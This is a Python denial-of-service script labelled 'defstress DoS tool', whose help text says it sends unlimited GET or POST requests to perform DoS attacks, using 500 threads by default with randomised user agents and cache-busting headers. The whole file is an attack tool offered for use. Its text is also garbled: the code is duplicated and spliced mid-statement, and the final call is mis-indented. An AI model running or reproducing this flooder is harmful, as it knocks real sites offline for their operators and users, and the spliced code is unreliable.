 #----------------------------------------
#defstress DoS tool by hellwarriorhxcks
#----------------------------------------
import requests
import sys
import threading
import random
import re
import argparse

host=''
headers_useragents=[]
request_counter=0
printedMsgs = []

def printMsg(msg):
	if msg not in printedMsgs:
		print ("\n"+msg + " after %i requests" % request_counter)
		printedMsgs.append(msg)

def useragent_list():
	global headers_useragents
	headers_useragents.append('Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.219.6 Safari/532.1')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.2; Win64; x64; Trident/4.0)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 6.1; Windows XP)')
	headers_useragents.append('Opera/9.80 (Windows NT 5.2; U; ru) Presto/2.5.22 Version/10.51')
	return(headers_useragents)
	
def randomString(size):
	out_str = ''
	for i in range(0, size):
		a = random.randint(65, 90)
		out_str += chr(a)
	return(out_str)

def initHeaders():
	useragent_list()
	global headers_useragents, additionalHeaders
	headers = {
				'User-Agent': random.choice(headers_useragents),
				'Cache-Control': 'no-cache',
				'Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.7',
				'Referer': 'http://www.google.com/?q=' + randomString(random.randint(5,10)),
				'Keep-Alive': str(random.randint(110,120)),
				'Connection': 'keep-alive'
				}

	if additionalHeaders:
		for header in additionalHeaders:
			headers.update({header.split(":")[0]:header.split(":")[1]})
	return headers

def handleStatusCodes(status_code):
	global request_counter
	sys.stdout.writeimport requests
import sys
import threading
import random
import re
import argparse

host=''
headers_useragents=[]
request_counter=0
printedMsgs = []

def printMsg(msg):
	if msg not in printedMsgs:
		print ("\n"+msg + " after %i requests" % request_counter)
		printedMsgs.append(msg)

def useragent_list():
	global headers_useragents
	headers_useragents.append('Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.219.6 Safari/532.1')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.2; Win64; x64; Trident/4.0)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 6.1; Windows XP)')
	headers_useragents.append('Opera/9.80 (Windows NT 5.2; U; ru) Presto/2.5.22 Version/10.51')
	return(headers_useragents)
	
def randomString(size):
	out_str = ''
	for i in range(0, size):
		a = random.randint(65, 90)
		out_str += chr(a)
	return(out_str)

def initHeaders():
	useragent_list()
	global headers_useragents, additionalHeaders
	headers = {
				'User-Agent': random.choice(headers_useragents),
				'Cache-Control': 'no-cache',
				'Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.7',
				'Referer': 'http://www.google.com/?q=' + randomString(random.randint(5,10)),
				'Keep-Alive': str(random.randint(110,120)),
				'Connection': 'keep-alive'
				}

	if additionalHeaders:
		for header in additionalHeaders:
			headers.update({header.split(":")[0]:header.split(":")[1]})
	return headers

def handleStatusCodes(status_code):
	global request_counter
	sys.stdout.write("\r%i requests has been sent" % request_counter)
	sys.stdout.flush()
	if status_code == 429:
			printMsg("You have been throttled")
	if status_code == 500:
		printMsg("Status code 500 received")

def sendGET(url):
	global request_counter
	headers = initHeaders()
	try:
		request_counter+=1
		request = requests.get(url, headers=headers)
		# print 'her'
		handleStatusCodes(request.status_code)
	except:
		pass

def sendPOST(url, payload):
	global request_counter
	headers = initHeaders()
	try:
		request_counter+=1
		if payload:
			request = requests.post(url, data=payload, headers=headers)
		else:
			request = requests.post(url, headers=headers)
		handleStatusCodes(request.status_code)
	except:
		pass

class SendGETThread(threading.Thread):
	def run(self):
		try:
			while True:
				global url
				sendGET(url)
		except:
			pass

class SendPOSTThread(threading.Thread):
	def run(self):
		try:
			while True:
				global url, payload
				sendPOST(url, payload)
		except:
			pass


# TODO:
# check if the site stop responding and alert

def main(argv):
	parser = argparse.ArgumentParser(description='Sending unlimited amount of requests in order to perform DoS attacks. Written by Barak Tawily')
	parser.add_argument('-g', help='Specify GET request. Usage: -g \'<url>\'')
	parser.add_argument('-p', help='Specify POST request. Usage: -p \'<url>\'')
	parser.add_argument('-d', help='Specify data payload for POST request', default=None)
	parser.add_argument('-ah', help='Specify addtional header/s. Usage: -ah \'Content-type: application/json\' \'User-Agent: Doser\'', default=None, nargs='*')
	parser.add_argument('-t', help='Specify number of threads to be used', default=500, type=int)
	args = parser.parse_args()

	global url, payload, additionalHeaders
	additionalHeaders = args.ah
	payload = args.d

	if args.g:
		url = args.g
		for i in range(args.t):
			t = SendGETThread()
			t.start()

	if args.p:
		url = args.p
		for i in range(args.t):
			t = SendPOSTThread()
			t.start()
	
	if len(sys.argv)==1:
		parser.print_help()
		exit()
	
if __name__ == "__main__":
main(sys.argv[1:])("\r%i requests has been sent" % request_counter)
	sys.stdout.flush()
	if status_code == 429:
			printMsg("You have been throttled")
	if status_code == 500:
		printMsg("Status code 500 received")

def sendGET(url):
	global request_counter
	headers = initHeaders()
	try:
		request_counter+=1
		request = requests.get(url, headers=headers)
		# print 'her'
		handleStatusCodes(request.status_code)
	except:
		pass

def sendPOST(url, payload):
	global request_counter
	headers = initHeaders()
	try:
		request_counter+=1
		if payload:
			request = requests.post(url, data=payload, headers=headers)
		else:
			request = requests.post(url, headers=headers)
		handleStatusCodes(request.status_code)
	except:
		pass

class SendGETThread(threading.Thread):
	def run(self):
		try:
			while True:
				global url
				sendGET(url)
		except:
			pass

class SendPOSTThread(threading.Thread):
	def run(self):
		try:
			while True:
				global url, payload
				sendPOST(url, payload)
		except:
			pass


# TODO:
# check if the site stop responding and alert

def main(argv):
	parser = argparse.ArgumentParser(description='Sending unlimited amount of requests in order to perform DoS attacks. Written by Barak Tawily')
	parser.add_argument('-g', help='Specify GET request. Usage: -g \'<url>\'')
	parser.add_argument('-p', help='Specify POST request. Usage: -p \'<url>\'')
	parser.add_argument('-d', help='Specify data payload for POST request', default=None)
	parser.add_argument('-ah', help='Specify addtional header/s. Usage: -ah \'Content-type: application/json\' \'User-Agent: Doser\'', default=None, nargs='*')
	parser.add_argument('-t', help='Specify number of threads to be used', default=500, type=int)
	args = parser.parse_args()

	global url, payload, additionalHeaders
	additionalHeaders = args.ah
	payload = args.d

	if args.g:
		url = args.g
		for i in range(args.t):
			t = SendGETThread()
			t.start()

	if args.p:
		url = args.p
		for i in range(args.t):
			t = SendPOSTThread()
			t.start()
	
	if len(sys.argv)==1:
		parser.print_help()
		exit()
	
if __name__ == "__main__":
main(sys.argv[1:])
